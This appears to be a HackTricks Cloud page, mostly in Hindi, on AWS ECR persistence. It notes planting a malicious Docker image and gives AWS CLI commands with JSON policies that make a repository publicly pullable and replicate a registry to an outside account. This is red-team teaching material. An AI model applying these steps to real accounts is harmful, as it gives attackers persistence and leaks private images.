 # AWS - ECR Persistence

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## ECR

अधिक जानकारी के लिए देखें:

{% content-ref url="../aws-services/aws-ecr-enum.md" %}
[aws-ecr-enum.md](../aws-services/aws-ecr-enum.md)
{% endcontent-ref %}

### Hidden Docker Image with Malicious Code

एक हमलावर **एक ECR रिपॉजिटरी में दुर्भावनापूर्ण कोड वाला Docker इमेज अपलोड कर सकता है** और इसे लक्षित AWS खाते में स्थिरता बनाए रखने के लिए उपयोग कर सकता है। फिर हमलावर इस दुर्भावनापूर्ण इमेज को खाते के भीतर विभिन्न सेवाओं, जैसे कि Amazon ECS या EKS, में छिपे हुए तरीके से तैनात कर सकता है।

### Repository Policy

एकल रिपॉजिटरी में एक नीति जोड़ें जो आपको (या सभी को) एक रिपॉजिटरी तक पहुंच प्रदान करती है:
```bash
aws ecr set-repository-policy \
--repository-name cluster-autoscaler \
--policy-text file:///tmp/my-policy.json

# With a .json such as

{
"Version" : "2008-10-17",
"Statement" : [
{
"Sid" : "allow public pull",
"Effect" : "Allow",
"Principal" : "*",
"Action" : [
"ecr:BatchCheckLayerAvailability",
"ecr:BatchGetImage",
"ecr:GetDownloadUrlForLayer"
]
}
]
}
```
{% hint style="warning" %}
ध्यान दें कि ECR को उपयोगकर्ताओं के पास **अनुमति** होनी चाहिए कि वे **`ecr:GetAuthorizationToken`** API को IAM नीति के माध्यम से कॉल कर सकें **तब तक जब तक वे एक रजिस्ट्री में प्रमाणित नहीं हो सकते** और किसी भी Amazon ECR रिपॉजिटरी से कोई भी छवि पुश या पुल नहीं कर सकते।
{% endhint %}

### रजिस्ट्री नीति और क्रॉस-खाता पुनरुत्पादन

यह एक बाहरी खाते में रजिस्ट्री को स्वचालित रूप से पुनरुत्पादित करना संभव है, जिसमें आपको **बाहरी खाते** को इंगित करने की आवश्यकता है जहां आप रजिस्ट्री को पुनरुत्पादित करना चाहते हैं।

<figure><img src="../../../.gitbook/assets/image (79).png" alt=""><figcaption></figcaption></figure>

पहले, आपको बाहरी खाते को रजिस्ट्री पर पहुंच प्रदान करने की आवश्यकता है एक **रजिस्ट्री नीति** के साथ जैसे:
```bash
aws ecr put-registry-policy --policy-text file://my-policy.json

# With a .json like:

{
"Sid": "asdasd",
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::947247140022:root"
},
"Action": [
"ecr:CreateRepository",
"ecr:ReplicateImage"
],
"Resource": "arn:aws:ecr:eu-central-1:947247140022:repository/*"
}
```
फिर पुनरुत्पादन कॉन्फ़िगरेशन लागू करें:
```bash
aws ecr put-replication-configuration \
--replication-configuration file://replication-settings.json \
--region us-west-2

# Having the .json a content such as:
{
"rules": [{
"destinations": [{
"region": "destination_region",
"registryId": "destination_accountId"
}],
"repositoryFilters": [{
"filter": "repository_prefix_name",
"filterType": "PREFIX_MATCH"
}]
}]
}
```
{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या **हमारे** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** का पालन करें।**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github रिपोजिटरी में PRs सबमिट करें।

</details>
{% endhint %}
